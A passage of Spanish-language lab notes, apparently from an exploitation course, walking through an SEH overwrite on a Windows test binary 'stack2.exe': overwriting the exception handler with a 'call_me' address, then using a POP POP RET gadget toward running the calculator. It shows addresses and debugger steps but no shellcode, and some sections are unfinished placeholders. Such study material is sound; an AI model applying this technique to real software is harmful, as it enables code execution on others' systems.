

Se explota la vulnerabilidad ya que hemos conseguido modificar el valor de la función que maneja la excepción.  


donde:
- Vemos valores de las Aes.
- Despues tenemos el primer elemento de la lista enlazada del manejador de excepciones →  Pointer to SEH_Record `0022FFC4 | 42424242`
- Después tenemos la dirección de la función que maneja la excepción → `0022FFC8 | 00401530`. Que la hemos sobreescrito con la dirección de la función `call_me`.
- Cuando se intenta manejar la excepción, llama a la función `call_me`.


## Ejecución de la calculadora

### Localización gadgets POP POP RET válidos para el binario stack2.exe
En una explotación SEH (Structured Exception Handler) en Windows, el objetivo es sobreescribir la estructura SEH para desviar la ejecución hacia nuestro shellcode. Para hacerlo, necesitamos un gadget muy específico dentro del binario o de alguna DLL que NO tenga SafeSEH / ASLR / DEP activo: 🎯 POP POP RET

🎯 POP POP RET: Es una secuencia de instrucciones ensamblador:
```c
POP reg
POP reg
RET
```

🚀 ¿Por qué es tan importante en un exploit SEH? Cuando ocurre una excepción en Windows, el sistema hace:
- Busca en el stack la estructura SEH.
- Obtiene el handler (el puntero al manejador).
- Lo ejecuta cuando no existe SafeSEH / SEHOP.
- Pero ANTES de saltar al handler… Windows hace dos POPs para limpiar la estructura SEH:
  ```c
  [ next SEH pointer ]   <-- offset 0
  [ exception handler ]   <-- offset +4   <-- ESTE lo sobreescribmos
  ```

  Cuando Windows entra al SEH:
  ```c
  POP reg   ; limpia next SEH
  POP reg   ; limpia el handler
  RET       ; salta a donde queramos
- 👉 Y ese RET saltará a nuestro código malicioso en el stack (si controlamos EIP con un RET hacia nuestros datos).

**`EIP = 6FF5A030`:**

donde:
- xxxx.


**Primera Excepción en 6FF5A091:**

donde:
- La excepción ocurrió dentro de `msvcrt.dll`, NO dentro de `stack2.exe`.
- Esto significa que nuestro desbordamiento pasó completamente la función vulnerable y terminó corrompiendo estructuras internas usadas por `msvcrt` durante la limpieza del `stack` o la copia de memoria.
- Vemos `First chance exception`.
- El debugger nos deja continuar.
- Windows intenta ejecutar el `SEH` corrupto.
- ⭐ Entonces se ejecuta el `POP POP RET`.


**Ejecución del `POP POP RET`:**



xxxx:


xxxx:



---------------------------------------
# Explotación del overflow para sobreescribir `RET`
